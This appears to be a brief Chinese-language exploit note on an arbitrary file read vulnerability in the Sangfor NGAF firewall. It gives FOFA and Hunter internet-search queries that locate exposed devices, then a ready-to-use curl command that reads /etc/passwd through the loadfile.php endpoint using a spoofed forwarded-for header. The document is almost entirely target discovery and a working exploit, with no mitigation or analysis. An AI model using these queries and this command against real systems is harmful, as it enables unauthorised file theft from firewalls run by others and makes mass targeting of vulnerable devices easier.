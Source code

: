 # 深信服下一代防火墙NGAF任意文件读取漏洞

## 深信服下一代防火墙NGAF任意文件读取漏洞

## fofa:

"Redirect.php?url=/LogInOut.php" && port="85"

## hunter:
web.body="LogInOut.php?type=logout"

## 漏洞复现
```
curl --insecure  https://<host>:85/svpn_html/loadfile.php?file=/etc/./passwd -H "y-forwarded-for: 127.0.0.1"

```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/W3ujp2P7OjARkXD5FOjonOrfcK6Xr6QOVaCrI21fu9F1DcBPekwcPFBf8Q8vCrI4Qmiaia2YaMExoogwic2TSnNKQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)




